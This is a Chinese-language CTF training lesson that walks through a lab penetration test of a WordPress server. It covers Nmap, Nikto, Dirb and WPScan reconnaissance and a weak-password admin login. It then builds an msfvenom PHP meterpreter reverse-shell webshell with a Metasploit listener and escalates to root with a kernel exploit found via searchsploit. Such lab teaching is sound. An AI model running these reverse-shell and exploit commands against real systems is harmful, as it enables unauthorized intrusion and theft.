# CTF入门课程：P28：综合测试 - 网络安全基础入门

在本节课中，我们将学习如何通过Web安全漏洞，逐步获取服务器权限，最终提升至root权限并取得目标flag值。这是一个完整的渗透测试流程演练。

## Web安全概述

随着Web技术的不断发展，社交网络、微博等一系列新型互联网产品诞生。基于Web环境搭建的应用和平台越来越多。Web业务的迅速发展也引起了黑客的强烈关注。接踵而至的，是Web安全威胁的日趋凸显。




黑客利用网站操作系统的漏洞和Web中间件服务的漏洞，获取服务器的控制权限。轻者可以篡改网页内容，重则窃取公司内部的重要数据。更为严重的，是在网页中植入恶意代码，例如植入挖矿木马，使用户为黑客免费贡献带宽和计算资源，使网站访问者受到危害。

通过Web入侵服务器，并利用服务器漏洞获取更高权限，是今天课程的核心内容。

## 实验环境搭建

首先介绍实验环境。

*   **攻击机**：Kali Linux，IP地址为 `192.168.253.12`。
*   **靶场机器**：目标服务器，IP地址为 `192.168.253.14`。

在渗透测试或CTF比赛中，我们的目标非常明确：获取靶场机器的root权限，并找到对应的flag值。

## 信息探测

上一节我们介绍了实验环境，本节中我们来看看如何对目标进行信息收集。信息探测是渗透测试的第一步，目的是了解目标服务器开放了哪些服务及其详细信息。

以下是信息探测的常用方法：

1.  **使用Nmap进行端口与服务探测**
    我们使用Nmap工具探测靶场机器开放的服务及版本信息。命令如下：
    ```bash
    nmap -sV 192.168.253.14
    ```
    此命令会扫描目标IP，并尝试识别开放端口上运行的服务及其版本。

2.  **使用Nmap进行全方位探测**
    为了获取更全面的信息，我们可以使用Nmap的高级参数进行扫描。命令如下：
    ```bash
    nmap -T4 -A -v 192.168.253.14
    ```
    *   `-T4`：指定扫描速度，T4为较快速度。
    *   `-A`：启用操作系统检测、版本检测、脚本扫描和路由跟踪。
    *   `-v`：显示详细输出信息。

3.  **使用Web信息探测工具**
    针对探测到的Web服务，我们可以使用专门工具进行深入探测。
    *   **使用Nikto扫描Web漏洞**：Nikto可以扫描Web服务器，寻找潜在的危险文件和配置问题。命令如下：
        ```bash
        nikto -h http://192.168.253.14
        ```
        （如果Web服务运行在非80端口，需在IP后加上`:端口号`，例如 `http://192.168.253.14:8080`）
    *   **使用Dirb扫描Web目录**：Dirb是一个Web内容扫描器，用于寻找隐藏的目录和文件。命令如下：
        ```bash
        dirb http://192.168.253.14
        ```
        （同样，非80端口需指定端口号）

## 漏洞挖掘与利用

探测完信息后，我们需要对结果进行分析和挖掘，找到可以利用的漏洞点。

在Web渗透中，需要注意以下几点：
*   检查登录页面是否存在SQL注入或弱口令。
*   查看扫描到的目录和页面源代码，寻找敏感信息泄露。
*   判断系统是否为已知的CMS（内容管理系统），并查找公开的漏洞利用方式。
*   注意备份文件，其中可能包含配置文件、用户名密码等敏感信息。

在本案例的扫描结果中，我们发现目标系统是一个 **WordPress** 站点。对于已知CMS，我们可以使用专门工具进行扫描。



使用WPScan枚举WordPress信息：
```bash
wpscan --url http://192.168.253.14 --enumerate t,p,u
```
*   `--enumerate t`：枚举主题。
*   `--enumerate p`：枚举插件。
*   `--enumerate u`：枚举用户名。

扫描报告可能会显示漏洞、插件问题或用户名。例如，发现用户`admin`后，可以尝试使用弱口令（如`admin/admin`）登录后台。成功登录后台是获取Webshell权限的关键一步。



## 获取Webshell与反弹Shell

成功进入WordPress后台后，常见的下一步是上传一个Webshell，从而在服务器上执行命令。

1.  **生成Webshell**：使用MSFvenom生成一个PHP格式的反弹Shell。
    ```bash
    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw
    ```
    将生成的PHP代码保存为Webshell文件。

2.  **设置监听**：在攻击机上启动Metasploit，监听反弹连接。
    ```bash
    msfconsole
    use exploit/multi/handler
    set payload php/meterpreter/reverse_tcp
    set LHOST 192.168.253.12
    set LPORT 4444
    run
    ```

3.  **上传与执行**：将生成的PHP Webshell通过WordPress后台（例如编辑主题文件）上传到服务器，然后通过浏览器访问该文件的URL。此时，Metasploit监听端会收到一个来自靶场机器的Meterpreter会话。



通过`id`或`whoami`命令，我们发现当前权限是`www-data`（Web服务用户），并非root。因此需要提权。



## 权限提升





在CTF或渗透测试中，从普通用户权限提升到root权限是至关重要的一步。





1.  **信息收集**：首先在获取的Shell中收集系统信息，特别是内核版本。
    ```bash
    uname -a
    ```
    假设输出显示内核版本为 `4.4.0-xx-generic`。





2.  **查找漏洞**：根据内核版本，搜索公开的本地提权漏洞（Local Privilege Escalation Exploit）。可以使用`searchsploit`工具。
    ```bash
    searchsploit linux 4.4.0 local
    ```
    从搜索结果中选择一个合适的漏洞利用代码（例如`Linux Kernel 4.4.0-21 - Local Privilege Escalation`）。

3.  **编译与上传**：将找到的C语言漏洞利用代码复制到攻击机，编译成可执行文件。
    ```bash
    gcc exploit_code.c -o exploit
    ```
    然后通过Meterpreter会话上传到靶机。
    ```bash
    upload /path/to/exploit /tmp/
    ```

4.  **执行提权**：在靶机Shell中，为上传的利用程序添加执行权限并运行。
    ```bash
    chmod +x /tmp/exploit
    /tmp/exploit
    ```
    如果利用成功，当前Shell的提示符通常会变成`#`，使用`id`命令确认已获得root权限。

## 总结

本节课中我们一起学习了完整的渗透测试流程：

1.  **信息收集**：使用Nmap、Nikto、Dirb等工具探测目标服务和Web应用信息。
2.  **漏洞挖掘**：分析扫描结果，针对特定CMS（如WordPress）使用专用工具（如WPScan）寻找漏洞，尝试弱口令登录后台。
3.  **获取初始立足点**：通过后台上传Webshell，建立反弹Shell连接，获得`www-data`权限。
4.  **权限提升**：收集系统内核信息，查找并利用公开的本地提权漏洞，最终获得root权限。



在CTF比赛中，获得root权限后，通常还需要在指定目录找到flag文件并提交。请记住，整个过程的每个环节都需要仔细分析，不放过任何可能的信息点。